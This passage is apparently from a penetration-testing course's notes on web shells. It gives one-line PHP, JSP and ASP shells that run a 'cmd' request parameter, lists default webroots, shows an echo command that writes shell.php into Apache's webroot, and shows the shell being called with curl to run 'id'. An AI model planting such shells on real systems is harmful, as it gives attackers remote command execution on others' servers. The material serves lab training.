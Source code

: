 ```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

#### Uploading a Web Shell

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

|Web Server|Default Webroot|
|---|---|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c:\inetpub\wwwroot\|
|`XAMPP`|C:\xampp\htdocs\|

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

#### Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

```url
http://SERVER_IP:PORT/shell.php?cmd=id
```

![](Pasted%20image%2020250514183630.png)

Another option is to use `cURL`:

```shell
gitblanc@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
